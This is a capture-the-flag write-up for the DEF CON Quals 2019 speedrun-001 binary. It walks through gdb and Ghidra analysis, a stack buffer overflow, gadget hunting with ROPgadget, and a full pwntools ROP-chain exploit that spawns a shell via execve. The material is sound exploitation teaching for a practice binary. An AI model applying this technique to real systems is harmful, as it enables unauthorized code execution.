







# Defcon Quals 2019 Speedrun1

This was done on `Ubuntu 20.04.4 LTS`.

Let's take a look at the binary:



So we can see that we are dealing with a 64 bit statically compiled binary. This binary has NX (Non-Executable stack) enabled, which means that the stack memory region is not executable. For more info on this, we can check the memory mappings with the `vmmap` command while the binary is running:


Here we can see that the memory region for the stack begins at `0x00007ffffffde000` and ends at `0x00007ffffffff000`. We can see that the permissions are `rw`. There are three different permissions you can assign to a memory region, `r` for it to be readable, `w` for it to be writable, and `x` for it to be executable. Since the stack has the permissions `rw` assigned to it, we can read and write to it. So pushing shellcode onto the stack and executing it isn't an option.

Also since the binary is statically compiled, that means that the libc portions the binary needs are compiled with the binary. So libc is not linked to the binary (as you can see there is no libc memory region). As a result, there are a lot of potential gadgets (will be covered later in this writeup) for us to use. In addition to that, since PIE (Position Independent Executable) is not enabled we know the addresses of all of those gadgets. What PIE does is it essentially incorporates ASLR into addresses from the binary, so we would need to leak an address from that memory region to know any of the addresses. Also since the binary has a lot more code in it as a result of being statically compiled, ghidra will take a bit of time to analyze it.

When we run the binary, it essentially just prompts us for input. When we take a look at the binary in Ghidra, we see a long list of functions. To find out which one actually runs the code we look for, we can use the backtrace (`bt`) command in gdb when it prompts us for input, which will tell us the functions that have been called to reach the point we are at:

```
gef➤  r
Starting program: /Hackery/pod/modules/bof_static/dcquals19_speedrun1/speedrun-001
Hello brave new challenger
Any last words?
^C
Program received signal SIGINT, Interrupt.
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0xfffffffffffffe00
$rbx   : 0x0000000000400400  →   sub rsp, 0x8
$rcx   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$rdx   : 0x7d0             
$rsp   : 0x00007fffffffda28  →  0x0000000000400b90  →   lea rax, [rbp-0x400]
$rbp   : 0x00007fffffffde30  →  0x00007fffffffde50  →  0x0000000000401900  →   push r15
$rsi   : 0x00007fffffffda30  →  0x0000000000000000
$rdi   : 0x0               
$rip   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$r8    : 0xf               
$r9    : 0x0               
$r10   : 0x000000000042ae30  →   pslldq xmm2, 0x3
$r11   : 0x246             
$r12   : 0x00000000004019a0  →   push rbp
$r13   : 0x0               
$r14   : 0x00000000006b9018  →  0x0000000000440ea0  →   mov rcx, rsi
$r15   : 0x0               
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda28│+0x0000: 0x0000000000400b90  →   lea rax, [rbp-0x400]     ← $rsp
0x00007fffffffda30│+0x0008: 0x0000000000000000     ← $rsi
0x00007fffffffda38│+0x0010: 0x0000000000000000
0x00007fffffffda40│+0x0018: 0x0000000000000000
0x00007fffffffda48│+0x0020: 0x0000000000000000
0x00007fffffffda50│+0x0028: 0x0000000000000000
0x00007fffffffda58│+0x0030: 0x0000000000000000
0x00007fffffffda60│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x44989f                  add    BYTE PTR [rbx+0x272f6605], cl
     0x4498a5                  add    BYTE PTR [rbp+0x311675c0], al
     0x4498ab                  ror    BYTE PTR [rdi], 0x5
 →   0x4498ae                  cmp    rax, 0xfffffffffffff000
     0x4498b4                  ja     0x449910
     0x4498b6                  repz   ret
     0x4498b8                  nop    DWORD PTR [rax+rax*1+0x0]
     0x4498c0                  push   r12
     0x4498c2                  push   rbp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "speedrun-001", stopped, reason: SIGINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4498ae → cmp rax, 0xfffffffffffff000
[#1] 0x400b90 → lea rax, [rbp-0x400]
[#2] 0x400c1d → mov eax, 0x0
[#3] 0x4011a9 → mov edi, eax
[#4] 0x400a5a → hlt
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x00000000004498ae in ?? ()
gef➤  bt
#0  0x00000000004498ae in ?? ()
#1  0x0000000000400b90 in ?? ()
#2  0x0000000000400c1d in ?? ()
#3  0x00000000004011a9 in ?? ()
#4  0x0000000000400a5a in ?? ()
```

After this I started jumping to the various addresses listed there (you can just push `g` in ghidra and enter the address), and looked at the decompiled code to see what's interesting. After jumping to a few of them, `0x400c1d` looks like it's the main function (with that function starting at `0x00400bc1`):



When we look at the functions `FUN_00400b4d` and ` FUN_00400bae`, we see that the essentially just print out text (which matches with what we saw earlier). Looking at the `FUN_00400b60` function shows us something interesting:



So we can see it prints out a message, runs a function (which is based on using the binary and the order of the messages, probably scans in data), then prints a message with our input. Looking at the function `FUN_004498a0`, it seems a bit weird:



It appears to be scanning in our input by making a syscall, versus using a function like `scanf` or `fgets`. A syscall is essentially a way for your program to request your OS or Kernel to do something. Looking at the assembly code, we see that it sets the `RAX` register equal to `0` by xoring `eax` by itself. For the linux `x64` architecture, the contents of the `rax` register decides what syscall gets executed. And when we look on the sycall chart (https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) we see that it corresponds to the `read` syscall. We don't see the arguments being loaded for the syscall, since they were already loaded when this function was called. The arguments this function takes (and the registers they take it in) are the same as the read syscall, so it can just call it after it zeroes at `rax`. More on syscalls to come:


So with that, we can see it is scanning in `2000` bytes worth of input into `input` which can hold `1024` bytes. We have an overflow that we can overwrite the return address with and get code execution. The question now is what to do with it?

We will be making a ROP Chain (Return Oriented Programming) and using the buffer overflow to execute it. A ROP Chain is made up of ROP Gadgets, which are bits of code in the binary itself that end in a `ret` instruction (which will carry it over to the next gadget). We will essentially just stitch together pieces of the binary's code, to make code that will give us a shell. Since this is all valid code, we don't have to worry about the code being non-executable. Since PIE is disabled, we know the addresses of all of the binary's instructions. Also since it is statically linked, that means it is a large binary with plenty of gadgets. Also just a fun side note, if you make a gadget that jumps in the middle of an instruction it completely changes what the instruction does.

We will be making a rop chain to make a `sys_execve` syscall to execute `/bin/sh` to give us a shell. Looking at the chart posted earlier, we can see the values it expects. With that we know that we need the following registers to have the following values. We aren't too worried about the arguments or environment variables we pass to it, so we can just leave those `0x0` (null) to mean no arguments / environment variables:

```
rax:    59    Specify         sys_execve
rdi:    ptr to "/bin/sh"    specify file to execute
rsi:    0                    specify no arguments passed
rdx:    0                    specify no environment variables passed
```

Now our ROP Chain will have three parts. The first will be to write `/bin/sh` somewhere in memory, and move the pointer to it into the `rdi` register. The second will be to move the necessary values into the other three registers. The third will be to make the syscall itself. Other than finding the gadgets to execute, the only thing we need to really do prior to writing the exploit is finding a place in memory to write `/bin/sh`. Let's check the memory mappings while the elf is running to see what we have to work with:



Looking at this, the elf memory region between `0x6b6000` - `0x6bc000` looks pretty good. I'll probably go with the address `0x6b6000`. There are a few reasons why I choose this. The first is that it is from the elf's memory space that doesn't have PIE, so we know what the address is without an infoleak. In addition to that, the permissions are `rw` so we can read and write to it. Also there doesn't appear to be anything stored there at the moment, so it probably won't mess things up if we store it there. Also let's find the offset between the start of our input and the return address using the same method I've used before:

```
gef➤  b *0x400b90
Breakpoint 1 at 0x400b90
gef➤  r
Starting program: /Hackery/pod/modules/bof_static/dcquals19_speedrun1/speedrun-001
Hello brave new challenger
Any last words?
15935728
[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────── registers ────
$rax   : 0x9               
$rbx   : 0x0000000000400400  →   sub rsp, 0x8
$rcx   : 0x00000000004498ae  →  0x5a77fffff0003d48 ("H="?)
$rdx   : 0x7d0             
$rsp   : 0x00007fffffffda30  →  "15935728"
$rbp   : 0x00007fffffffde30  →  0x00007fffffffde50  →  0x0000000000401900  →   push r15
$rsi   : 0x00007fffffffda30  →  "15935728"
$rdi   : 0x0               
$rip   : 0x0000000000400b90  →   lea rax, [rbp-0x400]
$r8    : 0xf               
$r9    : 0x0               
$r10   : 0x000000000042ad40  →   pslldq xmm2, 0x4
$r11   : 0x246             
$r12   : 0x00000000004019a0  →   push rbp
$r13   : 0x0               
$r14   : 0x00000000006b9018  →  0x0000000000440ea0  →   mov rcx, rsi
$r15   : 0x0               
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
───────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffda30│+0x0000: "15935728"     ← $rsp, $rsi
0x00007fffffffda38│+0x0008: 0x000000000000000a
0x00007fffffffda40│+0x0010: 0x0000000000000000
0x00007fffffffda48│+0x0018: 0x0000000000000000
0x00007fffffffda50│+0x0020: 0x0000000000000000
0x00007fffffffda58│+0x0028: 0x0000000000000000
0x00007fffffffda60│+0x0030: 0x0000000000000000
0x00007fffffffda68│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────── code:x86:64 ────
     0x400b83                  mov    rsi, rax
     0x400b86                  mov    edi, 0x0
     0x400b8b                  call   0x4498a0
 →   0x400b90                  lea    rax, [rbp-0x400]
     0x400b97                  mov    rsi, rax
     0x400b9a                  lea    rdi, [rip+0x919b7]        # 0x492558
     0x400ba1                  mov    eax, 0x0
     0x400ba6                  call   0x40f710
     0x400bab                  nop    
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "speedrun-001", stopped, reason: BREAKPOINT
───────────────────────────────────────────────────────────────────── trace ────
[#0] 0x400b90 → lea rax, [rbp-0x400]
[#1] 0x400c1d → mov eax, 0x0
[#2] 0x4011a9 → mov edi, eax
[#3] 0x400a5a → hlt
────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0000000000400b90 in ?? ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffda30 - 0x7fffffffda38  →   "15935728"
gef➤  i f
Stack level 0, frame at 0x7fffffffde40:
 rip = 0x400b90; saved rip = 0x400c1d
 called by frame at 0x7fffffffde60
 Arglist at 0x7fffffffda28, args:
 Locals at 0x7fffffffda28, Previous frame's sp is 0x7fffffffde40
 Saved registers:
  rbp at 0x7fffffffde30, rip at 0x7fffffffde38
```

So we can see that the offset is `0x7fffffffde38 - 0x7fffffffda30 = 0x408` bytes. With that, the last thing we need is to find the ROP gadgets we will use. This time we will be using a utility called `ROPgadget` from https://github.com/JonathanSalwan/ROPgadget (not included as part of nightmare). This will just be a python script which will give us gadgets for a binary we give it. First let's just get four gadgets to just pop values into the four registers we need:

```
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rax ; ret"
0x0000000000415662 : add ch, al ; pop rax ; ret
0x0000000000415661 : cli ; add ch, al ; pop rax ; ret
0x00000000004a9321 : in al, 0x4c ; pop rax ; retf
0x0000000000415664 : pop rax ; ret
0x000000000048cccb : pop rax ; ret 0x22
0x00000000004a9323 : pop rax ; retf
0x00000000004758a3 : ror byte ptr [rax - 0x7d], 0xc4 ; pop rax ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rdi ; ret"
0x0000000000423788 : add byte ptr [rax - 0x77], cl ; fsubp st(0) ; pop rdi ; ret
0x000000000042378b : fsubp st(0) ; pop rdi ; ret
0x0000000000400686 : pop rdi ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rsi ; ret"
0x000000000046759d : add byte ptr [rbp + rcx*4 + 0x35], cl ; pop rsi ; ret
0x000000000048ac68 : cmp byte ptr [rbx + 0x41], bl ; pop rsi ; ret
0x000000000044be39 : pop rdx ; pop rsi ; ret
0x00000000004101f3 : pop rsi ; ret
$   python3 ROPgadget.py --binary speedrun-001 | grep "pop rdx ; ret"
0x00000000004a8881 : js 0x4a88fe ; pop rdx ; retf
0x00000000004498b5 : pop rdx ; ret
0x000000000045fe71 : pop rdx ; retf
```

Which we see right here:



So we found our four gadgets at the addresses `0x415664`, `0x400686`, `0x4101f3`, and `0x4498b5`. Next we will need a gadget which will write the string `/bin/sh` somewhere to memory. For this I looked through all of the gadgets with a `mov` instruction:

```
$    python3 ROPgadget.py --binary speedrun-001 | grep "mov" | less
```

Looking through the giant list, this one seems like it would fit our needs perfectly:

```
0x000000000048d251 : mov qword ptr [rax], rdx ; ret
```

This gadget will allow us to write an `8` byte value stored in `rdx` to whatever address is pointed to by the `rax` register. In addition it's kind of convenient since we can use the four gadgets we found earlier to prep this write. Lastly we just need to find a gadget for `syscall`:

```
$    python3 ROPgadget.py --binary speedrun-001 | grep ": syscall"
0x000000000040129c : syscall
```

Keep in mind that our ROP chain is comprised of addresses to instructions, and not the instructions themselves. So we will overwrite the return address with the first gadget of the ROP chain, and when it returns it will keep on going down the chain until we get our shell. Also for moving values into registers, we will store those values on the stack in the ROP Chain, and they will just be popped off into the regisets. Putting it all together we get the following exploit:

```
from pwn import *

target = process('./speedrun-001')
#gdb.attach(target, gdbscript = 'b *0x400bad')

# Establish our ROP Gadgets
popRax = p64(0x415664)
popRdi = p64(0x400686)
popRsi = p64(0x4101f3)
popRdx = p64(0x4498b5)

# 0x000000000048d251 : mov qword ptr [rax], rdx ; ret
writeGadget = p64(0x48d251)

# Our syscall gadget
syscall = p64(0x40129c)

'''
Here is the assembly equivalent for these blocks
write "/bin/sh" to 0x6b6000

pop rdx, 0x2f62696e2f736800
pop rax, 0x6b6000
mov qword ptr [rax], rdx
'''
rop = b""
rop += popRdx
rop += b"/bin/sh\x00" # The string "/bin/sh" in hex with a null byte at the end
rop += popRax
rop += p64(0x6b6000)
rop += writeGadget

'''
Prep the four registers with their arguments, and make the syscall

pop rax, 0x3b
pop rdi, 0x6b6000
pop rsi, 0x0
pop rdx, 0x0

syscall
'''

rop += popRax
rop += p64(0x3b)

rop += popRdi
rop += p64(0x6b6000)

rop += popRsi
rop += p64(0)
rop += popRdx
rop += p64(0)

rop += syscall


# Add the padding to the saved return address
payload = b"0"*0x408 + rop

# Send the payload, drop to an interactive shell to use our new shell
target.sendline(payload)

target.interactive()
```

When we run it:



Just like that, we popped a shell!
